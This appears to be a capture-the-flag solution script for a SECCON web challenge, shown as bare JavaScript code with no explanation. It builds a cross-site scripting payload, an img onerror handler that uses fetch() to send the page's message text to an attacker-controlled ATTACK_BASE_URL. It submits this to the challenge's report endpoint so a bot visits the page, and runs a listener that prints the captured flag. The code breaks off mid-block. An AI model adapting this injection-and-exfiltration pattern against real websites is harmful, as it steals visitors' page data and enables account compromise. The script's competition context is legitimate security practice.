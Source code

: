 ```javascript
const fastify = require("fastify")();

const fail = (message) => {
  console.error(message);
  return process.exit(1);
};

const SECCON_BASE_URL = process.env.SECCON_BASE_URL ?? fail("No SECCON_BASE_URL");
const ATTACK_BASE_URL = process.env.ATTACK_BASE_URL ?? fail("No ATTACK_BASE_URL");

const LISTEN_PORT = process.env.PORT ?? "8080";

const sleep = (msec) => new Promise((resolve) => setTimeout(resolve, msec));

const exploit = async () => {
  const emoji = "0/ownerDocument/defaultView/RegExp/rightContext";
  const message = `{{emoji}} S{{emoji}}<p id="}<img src=0 onerror=fetch(\`${ATTACK_BASE_URL}/?text=\`+encodeURIComponent(document.all.message.textContent))>"></p><script><`;
  const url = `http://web:3000/result?${new URLSearchParams({
    emoji,
    message,
  })}`;

  const res = await (
    await fetch(`${SECCON_BASE_URL}/report`, {
      method: "POST",
      headers: {
        "Content-Type": "application/json",
      },
      body: JSON.stringify({
        url,
      }),
    })
  ).text();
  console.log(res); // "Received :)"
};

const start = async () => {
  fastify.get("/", async (req, reply) => {
    const text = req.query.text;

    // Print a flag
    console.log("S" + text);
    // -> SECCON{real_flag} SECCON{REDACTED}">

    process.exit(0);
  });

  fastify.listen(
    { port: LISTEN_PORT, host: "0.0.0.0" },
    async (err, address) => {
      if (err) {
        fastify.log.error(err);
        process.exit(1);
      }

      await sleep(1000);
      await exploit();

      await sleep(5000);
      console.log("Failed");
      process.exit(1);
    }
```